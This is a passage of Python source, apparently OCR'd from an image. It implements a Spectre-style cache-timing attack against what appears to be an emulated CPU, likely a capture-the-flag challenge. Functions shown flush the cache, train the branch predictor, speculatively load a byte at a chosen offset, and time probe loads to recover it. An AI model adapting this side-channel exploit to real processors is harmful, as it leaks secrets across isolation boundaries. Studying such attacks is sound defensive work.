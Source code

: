 ```python
    c.movc(r11, 0)
    l_target2 = c.getloop()
    c.movc(r10, 0x101000)
    l_target1 = c.getloop()
    c.mov(r8, r10)
    c.load(r8, r8)
    c.movc(r9, 4)
    c.add(r10, r9)
    c.loop(0x1fff000, l_target1, r10)
    c.movc(r9, 1)
    c.add(r11, r9)
    c.loop(0x10, l_target2, r11)

def train_jle(c):
    target_l = c.getloop()
    c.movc(r9, 0x200)
    for i in range(0x100):
        c.loop(0x20, target_l, r9)

def delay_fence(c):
    c.movc(r10, 0)
    target_l = c.getloop()
    c.movc(r9, 1)
    c.add(r10, r9)
    c.loop(0x100, target_l, r10)

def attack(c, offset):
    c.movc(r11, 56)
    c.movc(r12, 56 - 12)
    c.movc(r8, 0x1018 + offset)
    c.bc()
    c.shl(r8, r11)
    c.shr(r8, r12)
    c.load(r9, r8)

def check(c, addr):
    c.movc(r10, addr)
    c.time(r9)
    c.load(r10, r10)
    c.time(r8)
    c.sub(r8, r9)

def check_all(c):
    c.movc(r15, 0)

    target_l = c.getloop()

    c.mov(r11, r15)
    c.movc(r9, 0x6)
    c.shl(r11 , r9)
    c.add(r11, r15)
    c.movc(r9, 0xff)
    c.uand(r11, r9)

    c.movc(r9, 12)
    c.mov(r12, r11)
    c.shl(r12, r9)
    c.time(r9)
    c.load(r12, r12)
    c.time(r8)
    c.sub(r8, r9)
    c.mov(r12, r11)
    c.movc(r9, 3)
```